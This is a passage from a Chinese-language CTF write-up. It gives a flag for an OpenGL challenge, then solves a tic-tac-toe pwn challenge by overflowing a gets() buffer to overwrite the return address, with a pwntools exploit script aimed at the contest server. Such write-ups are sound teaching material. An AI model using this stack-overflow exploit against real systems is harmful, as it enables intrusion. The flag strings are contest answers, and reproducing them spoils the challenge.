 然后就可以显示出 flag 了。![超简陋的 OpenGL 小程序](/img/post/image-20201120095714683.webp)

flag 为 `flag{glGraphicsHappy(233);}`

## 生活在博弈树上

### 始终热爱大地

最开始的时候还以为是要破解那个 AI 算法以赢过 AI www， 后来发现这应该是一个 pwn 题， 因为使用了 gets() 函数，所以可以覆盖掉栈中的返回地址， 使我们跳转到 success 的地址赢得这场游戏，获取 flag。

```python
from pwn import *
from sys import *

if '-r' in argv:
    s = remote('202.38.93.111', 10141)
    s.send("<token here :3>\n")
else:
    s = process('./tictactoe')

ret_address = 0x402551
s.recvuntil("): ")
s.sendline("(0,1)")
s.sendline(("(1,1)" + "a"*147).encode() + p32(ret_address))
s.interactive()
```
